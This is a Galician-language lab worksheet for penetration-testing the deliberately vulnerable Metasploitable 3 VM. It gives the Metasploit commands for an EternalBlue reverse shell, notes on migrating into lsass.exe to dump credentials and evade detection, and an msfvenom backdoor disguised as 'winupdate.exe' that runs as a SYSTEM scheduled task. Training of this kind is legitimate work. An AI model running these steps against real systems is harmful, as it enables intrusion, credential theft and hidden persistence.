Práctica Taller: Metasploitable 3 – Pentest paso a paso en contorno moderno
Recomendacións
- Non actualizar os paquetes da máquina (podería romper os vectores de ataque).
- Traballar sempre nunha rede illada (host-only) para evitar exposicións accidentais.
- Úsaa como práctica avanzada despois de dominar Metasploitable 2.
Credenciais por defecto
- Usuario:
vagrant - Contrasinal:
vagrant
Vulnerabilidades
Obxectivo
Completar un test de intrusión sobre un sistema Windows vulnerable con múltiples servizos mal configurados, orientado á explotación con Metasploit e técnicas de post-explotación avanzadas.
Pasos básicos
-
Clonar o repositorio oficial desde GitHub:
-
Instalar os requisitos previos no teu sistema (exemplo para Debian/Ubuntu):
Para instalar Packer:
-
Construír a máquina virtual Windows vulnerable (leva tempo):
-
Configurar en VirtualBox unha máquina Kali Linux coa rede en modo só anfitrión (host-only).

-
Arrancar a máquina Kali Linux:
- Identificar a IP (
netdiscoverouarp-scanounmap) e realizar escaneo connmap. - Detectar vulnerabilidades en servizos como WinRM, SMB, ou HTTP.
- Explotar un servizo usando Metasploit.
- Establecer persistencia, escalar privilexios e recoller información do sistema.
- Identificar a IP (
-
Elaborar un informe final coas evidencias obtidas.
Fases dun test de intrusión (Pentest)

Fase 1: Recopilación de información
Prerrequisito
Realizar os Pasos básicos do 1 ao 5(inclusive).
Arrancar a máquina Kali Linux na primeira opción de arranque.
A. Dende a máquina Kali Linux detectar IP da máquina Metasploitable3. Así, executar nunha consola:
setxkbmap es
sudo netdiscover -r 192.168.56.0/24 || sudo arp-scan --interface=eth0 192.168.56.0/24 || sudo nmap -sn -PR 192.168.56.0/24
IP atopada para metasploitable 3
No caso de execución deste procedemento a IP atopada foi: 192.168.56.39, pero no voso caso pode variar. Tédeo en conta para o seguimento desta práctica.
B. Comprobación de conectividade e detección do sistema operativo. Así, executar:
TTL
- TTL ≃ 64 ⇒ GNU/Linux
- TTL ≃ 128 ⇒ Microsoft Windows
Como podemos observar neste caso non obtemos conectividade co comandopingdebido ao firewall de Windows, se estivera desactivado a saída do comandopingamosaría que estamos ante unha máquina obxectivo Windows.
C. Escaneo básico con Nmap:
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-21 12:42 UTC
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.32
Host is up (0.00087s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_ Potentially risky methods: TRACE
4848/tcp open ssl/http Oracle Glassfish Application Server
|_http-title: Login
|_http-server-header: GlassFish Server Open Source Edition 4.0
| ssl-cert: Subject: commonName=localhost/organizationName=Oracle Corporation/stateOrProvinceName=California/countryName=US
| Not valid before: 2013-05-15T05:33:38
|_Not valid after: 2023-05-13T05:33:38
|_ssl-date: 2025-07-21T12:43:50+00:00; 0s from scanner time.
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp open http Sun GlassFish Open Source Edition 4.0
|_http-server-header: GlassFish Server Open Source Edition 4.0
| http-methods:
|_ Potentially risky methods: PUT DELETE TRACE
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: GlassFish Server - Server Running
8383/tcp open http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
9200/tcp open http Elasticsearch REST API 1.1.1 (name: Mark Raxton; Lucene 4.7)
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49157/tcp open java-rmi Java RMI
49158/tcp open tcpwrapped
MAC Address: 08:00:27:15:2B:FE (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.22 seconds
Fase 2: Análise de vulnerabilidades
Non se identifica o servizo SMB. Así, para explotar a vulnerabilidade EternalBlue imos desactivar o firewall de Windows. Polo tanto na máquina virtual Windows:
1. Facer login coas credenciais:
Usuario: Administrator
Contrasinal: vagrant
2. Executar nunha consola de comandos:
SMB, psexec, ou conexións remotas. 
Na máquina virtual Kali Linux empregar searchsploit para buscar exploits relacionados cos servizos detectados:
Exploits atopados
Podemos observar que atopamos múltiples exploits, entre eles un para EternalBlue (MS17-010), que permite executar código remotamente cunha shell privilexiada.
Fase 3: Explotación
IP da máquina Kali Linux
No caso de execución deste procedemento a IP da máquina Kali Linux foi: 192.168.56.29, pero no voso caso pode variar. Tédeo en conta para o seguimento desta práctica.
Uso de Metasploit Framework para explotar a vulnerabilidade:
msfconsole -q
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.56.39
set LHOST 192.168.56.29
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run

Unha vez dentro da shell meterpreter:

Fase 4: Post-explotación
Recolleita de información (datos sensibles):



Uso do comando migrate en Meterpreter
O comando migrate permite mover a sesión de Meterpreter a outro proceso do sistema. Isto faise por varias razóns:
-
Estabilidade da sesión
Se a shell está nun proceso débil (ex.: o servizo vulnerado), pode caer ou reiniciarse. Migrar a un proceso estable comoexplorer.exeoulsass.exegarante continuidade. -
Persistencia
Procesos comoexplorer.exeoulsass.exearrancan sempre en cada inicio de sesión, polo que a presenza de Meterpreter pode sobrevivir máis tempo. -
Elevación de privilexios e dumping de credenciais
Migrar alsass.exe(Local Security Authority Subsystem Service) permite: - Dumpear hashes e credenciais en memoria con ferramentas como
mimikatzouhashdump. -
Capturar tokens doutros usuarios.
Para isto é necesario ter privilexios NT AUTHORITY\SYSTEM. -
Evasión de detección
Algúns antivirus/EDR monitorizan o proceso explotado. Migrando a un proceso de confianza comoexplorer.exe, redúcese o risco de detección inmediata.
Cando usar cada un?
-
explorer.exe
Útil para manter unha sesión estable asociada ao usuario logado, con acceso á súa interface e permisos. Ideal para pivotar, keylogging, captura de pantalla, etc. -
lsass.exe
Útil para a extracción de credenciais e control total do sistema. É un dos obxectivos principais nun pentest/red team, xa que permite escalar lateralmente na rede. Require privilexios SYSTEM.
Resumo
explorer.exe= estabilidade + acceso á sesión do usuario.lsass.exe= credenciais + control total (require SYSTEM).
Fase 5: Persistencia
Opción 1 - Usuario administrador permanente

Opción 2 - Backdoor con Metasploit
Na máquina virtual Kali GNU/Linux:
- Iniciar un multi/handler para recibir a persistencia. Así, dende a consola Msfconsole aberta:
exit
background
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.29
set LPORT 5555
set ExitOnSession false
run -j
Premer Intro para ter a msfconsole en primeiro plano.

Na máquina Kali GNU-Linux:
- Abrir outra consola para xerar o payload para persistencia.
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.29 LPORT=5555 -f exe -o /tmp/winupdate.exe

- Subir o payload a máquina virtual Windows e crear unha tarefa programada para ser executado na máquina virtual Windows cada vez que faga login un usuario:
Sube o ficheiro ao equipo vítima Windows
sessions -l
sessions -i 1
meterpreter> execute -f cmd.exe -a "/c mkdir C:\\ProgramData\\WinUpdate"
meterpreter> upload /tmp/winupdate.exe C:\\ProgramData\\WinUpdate

- Crear a tarefa programada a partir do ficheiro subido(payload)
execute -f cmd.exe -a "/c schtasks /Create /SC ONLOGON /RU SYSTEM /RL HIGHEST /TN WinUpdate /TR C:\\ProgramData\\WinUpdate\\winupdate.exe /F"

Esta tarefa:
- Executarase ao login
- Con privilexios elevados
- Chamará ao ficheiro payload especificado
Reiniciar e a sesión será recibida no handler tras login do usuario:

Fase 6: Informe final
Seguir o indicado en Informes de Pentesting para obter: